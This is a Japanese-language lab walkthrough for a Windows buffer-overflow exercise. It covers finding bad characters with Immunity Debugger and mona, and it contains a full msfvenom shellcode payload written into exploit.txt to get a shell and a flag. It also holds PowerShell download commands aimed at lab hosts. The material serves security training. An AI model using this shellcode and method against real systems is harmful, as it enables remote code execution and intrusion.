









RDPで192.168.195.10に接続しbad-characters-windows-1.exeをダウンロードする

```
PS C:\Users\student> $wc = New-Object System.Net.WebClient
PS C:\Users\student> $wc.DownloadFile("http://192.168.195.60/bad-characters-windows-1.exe","C:\Users\student\Downloads\bad-characters-windows-1.exe")
```

bad-characters-windows-1.exeを実行するために必要なのでexploit.txtファイルを作成しておく 

Ctrl + fで検索窓を開き「CALL EBX」と入力 　 F2でブレイクポイントを作成しておく



monaコマンド実行

```
!mona find -s "\xff\xd3" -m "bad-characters-windows-1.exe"
```



Ctrl + F6でもどる

Checking for bad characters pythonで00からＦＦまでの文字の入ったexploit.txtを作成する

```
#!/usr/bin/python3

badchars = b""
badchars += b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars += b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars += b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars += b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars += b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars += b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
badchars += b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars += b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars += b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("exploit.txt", "wb")
f.write(badchars)
f.close()
```



pythonでサーバーをたてターゲット端末でexploit.txtをダウンロードする

```
PS C:\Users\student> $wc.DownloadFile("http://192.168.119.195:8000/exploit.txt","C:\Users\student\Downloads\exploit.txt")
```

Immunity Debuggerでbad-chracters-windows-1.exeを実行



1.  F9で実行したらEBPを右クリック＞Follw Follw Dumpを選択
2.  左下Hex dumpの値を確認していく
3.  「00」が出てきたらそれがbad characterになる
4.  exploit.txtからbad characterがなくなるまで繰り返す

最終的なBad Charactersは
「00 0A 1A 2F 95 A7」になる

## shellcodeの作成

msfvenomで作成 

create-exploit.pyを作成し、最終的なexploit.txtを完成させる

```
#!/usr/bin/python3

shellcode =  b""
shellcode += b"\xbd\xe5\xb7\x87\x83\xd9\xe8\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x52\x31\x68\x12\x83\xe8\xfc"
shellcode += b"\x03\x8d\xb9\x65\x76\xb1\x2e\xeb\x79\x49\xaf"
shellcode += b"\x8c\xf0\xac\x9e\x8c\x67\xa5\xb1\x3c\xe3\xeb"
shellcode += b"\x3d\xb6\xa1\x1f\xb5\xba\x6d\x10\x7e\x70\x48"
shellcode += b"\x1f\x7f\x29\xa8\x3e\x03\x30\xfd\xe0\x3a\xfb"
shellcode += b"\xf0\xe1\x7b\xe6\xf9\xb3\xd4\x6c\xaf\x23\x50"
shellcode += b"\x38\x6c\xc8\x2a\xac\xf4\x2d\xfa\xcf\xd5\xe0"
shellcode += b"\x70\x96\xf5\x03\x54\xa2\xbf\x1b\xb9\x8f\x76"
shellcode += b"\x90\x09\x7b\x89\x70\x40\x84\x26\xbd\x6c\x77"
shellcode += b"\x36\xfa\x4b\x68\x4d\xf2\xaf\x15\x56\xc1\xd2"
shellcode += b"\xc1\xd3\xd1\x75\x81\x44\x3d\x87\x46\x12\xb6"
shellcode += b"\x8b\x23\x50\x90\x8f\xb2\xb5\xab\xb4\x3f\x38"
shellcode += b"\x7b\x3d\x7b\x1f\x5f\x65\xdf\x3e\xc6\xc3\x8e"
shellcode += b"\x3f\x18\xac\x6f\x9a\x53\x41\x7b\x97\x3e\x0e"
shellcode += b"\x48\x9a\xc0\xce\xc6\xad\xb3\xfc\x49\x06\x5b"
shellcode += b"\x4d\x01\x80\x9c\xb2\x38\x74\x32\x4d\xc3\x85"
shellcode += b"\x1b\x8a\x97\xd5\x33\x3b\x98\xbd\xc3\xc4\x4d"
shellcode += b"\x11\x93\x6a\x3e\xd2\x43\xcb\xee\xba\x89\xc4"
shellcode += b"\xd1\xdb\xb2\x0e\x7a\x71\x49\xd9\x45\x2e\x26"
shellcode += b"\xda\x2e\x2d\xc8\xdd\x15\xb8\x2e\xb7\x79\xed"
shellcode += b"\xf9\x20\xe3\xb4\x71\xd0\xec\x62\xfc\xd2\x67"
shellcode += b"\x81\x01\x9c\x8f\xec\x11\x49\x60\xbb\x4b\xdc"
shellcode += b"\x7f\x11\xe3\x82\x12\xfe\xf3\xcd\x0e\xa9\xa4"
shellcode += b"\x9a\xe1\xa0\x20\x37\x5b\x1b\x56\xca\x3d\x64"
shellcode += b"\xd2\x11\xfe\x6b\xdb\xd4\xba\x4f\xcb\x20\x42"
shellcode += b"\xd4\xbf\xfc\x15\x82\x69\xbb\xcf\x64\xc3\x15"
shellcode += b"\xa3\x2e\x83\xe0\x8f\xf0\xd5\xec\xc5\x86\x39"
shellcode += b"\x5c\xb0\xde\x46\x51\x54\xd7\x3f\x8f\xc4\x18"
shellcode += b"\xea\x0b\xf4\x52\xb6\x3a\x9d\x3a\x23\x7f\xc0"
shellcode += b"\xbc\x9e\xbc\xfd\x3e\x2a\x3d\xfa\x5f\x5f\x38"
shellcode += b"\x46\xd8\x8c\x30\xd7\x8d\xb2\xe7\xd8\x87"

f = open("exploit.txt", "wb")
f.write(shellcode)
f.close()
```

作成されたexploit.txtをターゲット端末にコピーしImmunity Debuggerを実行するとシェルが帰ってくる



このexploit.txtを用いて対象端末でflagを獲得する



コマンドを実行したらCtrl + cで終了させるとシェルが帰ってくる



後はフラグを獲得する